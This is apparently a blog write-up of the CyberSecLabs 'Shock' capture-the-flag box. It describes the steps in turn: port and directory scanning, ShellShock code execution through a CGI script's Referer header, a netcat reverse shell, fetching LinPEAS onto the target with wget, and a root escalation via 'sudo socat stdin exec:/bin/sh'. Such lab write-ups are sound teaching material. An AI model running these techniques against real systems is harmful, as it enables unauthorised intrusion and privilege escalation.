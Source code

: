 ```yaml
---
layout: page
title: Shock - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/shock.html
---
```


# Shock - CyberSecLabs


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

#### nmap -p- -A 172.31.1.3

![image](https://user-images.githubusercontent.com/50459517/102672581-cb602200-4156-11eb-8dc0-56c5dcf085d2.png)

We see we have a few ports open.  21, 22 and 80.  I normally like to check out port 80 first, do a scan for directories and check other ports while that's running.  Lets see what's on port 80.

![image](https://user-images.githubusercontent.com/50459517/102672611-e16de280-4156-11eb-8149-f8f67cb0bdd5.png)

After some manual enumeration of the webpages and source code, nothing seems to jump out at me.  So lets scan for some directories.  I like to use _dirsearch_ for this, but any directory busting tool should work just fine.

``
dirsearch -u http://172.31.1.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e php,txt,html -f -t 100
``

While that is running, lets look at port 21 and see if we can anonymously log in.

![image](https://user-images.githubusercontent.com/50459517/102672633-f480b280-4156-11eb-91e2-4c65a38b7dd1.png)

Login seems to fail.. I also did some quick searches with google and searchsploit for known exploits on vsFTPd 3.0.3 but didn't find anything that jumped out at me.

![image](https://user-images.githubusercontent.com/50459517/102672677-12e6ae00-4157-11eb-92ca-19c9819f673b.png)

With our scan complete, I see a directory called `cgi-bin` that jumps out at me, this directory often stores various scripts that the Apache server can use the CGI interface to execute.  So I usually like to do a quick scan for `.cgi` scripts in this directory however if I get stuck I may search for other extensions such as `.py` or `.pl` as well.

`dirsearch -u http://172.31.1.3/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e cgi -f -t 100`

Right away we see a file called `test.cgi`.  Now if we do a quick search for "Apache cgi script exploits" we may find a few things, however the one that sticks out to me is called ShellShock.  This is because the name of the box is called Shock as well as the HTML Title is called "Steak House Shock".  So I believe this may be vulnerable to the ShellShock vulnerability.

Now ShellShock is a vulnerability in certain versions of Bash that takes advantage of the way bash handles environment variables.  You can trick bash into executing code that is being passed into the environment variable rather than just storing the data.  Here is a nice little screenshot from Symantec explaining this better.

![image](https://user-images.githubusercontent.com/50459517/102672758-5fca8480-4157-11eb-95fa-67fb546522eb.png)

Also I found a great PoC at this website explaining how it works and how to test for it.  Lets try this out.

[https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock is a security bug causing Bash to,the server%2C also known as remote code execution](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock%20is%20a%20security%20bug%20causing%20Bash%20to,the%20server%2C%20also%20known%20as%20remote%20code%20execution)

I opened Burp Suite and sent `http://172.31.1.3/cgi-bin/test.cgi` to the Burp Proxy so I can mess around with the GET request.

![image](https://user-images.githubusercontent.com/50459517/102672823-8983ab80-4157-11eb-8a92-452dd49661ac.png)

Now we can send this to Repeater and see what our Response looks like.

![image](https://user-images.githubusercontent.com/50459517/102672853-9f916c00-4157-11eb-8718-7d0d33f64950.png)

Now like we saw in the article, lets modify the Referer: header in the Request (In this case we will need to add this header) and see if we get code execution.

![image](https://user-images.githubusercontent.com/50459517/102672873-b20ba580-4157-11eb-9fb7-bac5355f3e78.png)

Awesome!  We have code execution!  Lets get that shell now!

We will use just a basic bash one liner to send a request to use on port 1337 and start a netcat listener on our machine that will listen for the request.  Thus resulting in a reverse shell.

![image](https://user-images.githubusercontent.com/50459517/102672900-c6e83900-4157-11eb-819d-59b4a99f4941.png)

![image](https://user-images.githubusercontent.com/50459517/102672934-db2c3600-4157-11eb-8d2e-d5655d299e7d.png)

Now we have a shell as www-data.  After looking around we find a user named scott.  In his home directory we find `access.txt` which we have permissions to read.

![image](https://user-images.githubusercontent.com/50459517/102672947-e717f800-4157-11eb-89d5-aa3c19b5d8e5.png)

With that out of the way, I normally like to run some type of post-enumeration script line LinPEAS.  We can just host up the file with `python -m SimpleHTTPServer 80` on our machine and then `wget http://ip/linpeas.sh` onto the victim machine in a directory we have rwx permissions in (i.e. /tmp)

![image](https://user-images.githubusercontent.com/50459517/102673038-2d6d5700-4158-11eb-9eb9-a0523ab69804.png)

Now lets run the file and see what it finds for us.

![image](https://user-images.githubusercontent.com/50459517/102673060-3d853680-4158-11eb-86cb-a0038444b4a5.png)

Unfortunately I had some issues with the script stopping at Internet Access checks and forcing me to stop the script.  I troubleshooted this for a little bit before deciding to move on as I think it may have been something with the machine timing out during this check.

Anyways I decided to do a little manual enumeration before trying another script.  Luckily I found something first thing!  I ran `sudo -l` to list anything I may have permissions to run as a sudo user.

![image](https://user-images.githubusercontent.com/50459517/102673082-4d047f80-4158-11eb-9532-fff36f7a688d.png)

As you can see, we have permissions to run socat as root with no password.  Great!  Lets check GTFOBins to see if we can escalate our privileges.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Per GTFOBins, we see we can run `sudo socat stdin exec:/bin/sh` to escalate our privileges.  This works because we have permission to run the socat utility as root with no password needed.  The option `stdin`(Standard Input) uses a file descriptor of 0 and `exec:/bin/bash` means it will execute a bash terminal at the end of the pipe.  So if I understand it correctly, instead of using socat to connect to or listen in on a connection from another host, we are just passing the /bin/bash script into our terminal.  And since we are running this as root, we will open a terminal instance as root, thus resulting in use escalating our privileges.

![image](https://user-images.githubusercontent.com/50459517/102673108-686f8a80-4158-11eb-94d1-7fb4b2343874.png)

And that's it!  This was a fun little box that shows a pretty straight forward vulnerability in ShellShock as well as a common mis-configuration seen with allow low level users to run certain programs/files as elevated users.
